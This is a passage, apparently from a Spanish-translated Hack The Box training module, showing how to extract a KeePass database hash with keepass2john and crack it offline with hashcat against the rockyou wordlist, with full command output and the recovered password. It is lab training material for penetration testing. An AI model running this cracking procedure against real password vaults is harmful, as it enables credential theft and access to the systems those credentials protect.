 #### Extraer el hash Keepass

Primero, extraemos el hash en formato hashcat utilizando el`keepass2john.py`guion.

  Robo de credenciales más

```shell-session
xnoxos@htb[/htb]$ python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 

ILFREIGHT_Help_Desk:$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154
```

#### Rompiendo el hash fuera de línea

Luego podemos alimentar al hash a hashcat, especificando[modo hash](https://hashcat.net/wiki/doku.php?id=example_hashes)13400 para Keepass. Si tiene éxito, podemos obtener acceso a una gran cantidad de credenciales que pueden usarse para acceder a otras aplicaciones/sistemas o incluso dispositivos de red, servidores, bases de datos, etc., si podemos obtener acceso a una base de datos de contraseña utilizada por el personal de TI.

  Robo de credenciales más

```shell-session
xnoxos@htb[/htb]$ hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154:panther1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d...39c154
Time.Started.....: Fri Aug  6 11:17:47 2021 (22 secs)
Time.Estimated...: Fri Aug  6 11:18:09 2021 (0 secs)
Guess.Base.......: File (/opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      276 H/s (4.79ms) @ Accel:1024 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 6144/14344385 (0.04%)
Rejected.........: 0/6144 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:59984-60000
Candidates.#1....: 123456 -> iheartyou

Started: Fri Aug  6 11:17:45 2021
Stopped: Fri Aug  6 11:18:11 2021
```

---